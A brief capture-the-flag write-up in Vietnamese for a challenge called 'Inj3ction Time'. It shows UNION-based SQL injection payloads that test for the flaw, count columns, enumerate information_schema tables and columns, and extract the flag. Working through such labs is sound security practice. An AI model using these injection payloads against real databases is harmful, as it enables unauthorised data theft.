

<h1>Inj3ction Time</h1>

Test lỗi SQLI
```sql
1 or 1=1
```


Sử dụng Union tìm số cột
```sql
1 order by 4-- -
```


Có 4 cột

---
Tìm tên bảng:
```sql
1 union select null, table_name, null, null from information_schema.tables-- -
```

```
Table_name: w0w_y0u_f0und_m3
```

Tìm tên cột:
```sql
1 union select null, column_name, null, null from information_schema.columns-- -
```
```
Column_name: f0und_m3
```

Tìm Flag:
```sql
1 union select null, f0und_m3, null, null from w0w_y0u_f0und_m3-- -
```

```
FLAG: abctf{uni0n_1s_4_gr34t_c0mm4nd}
```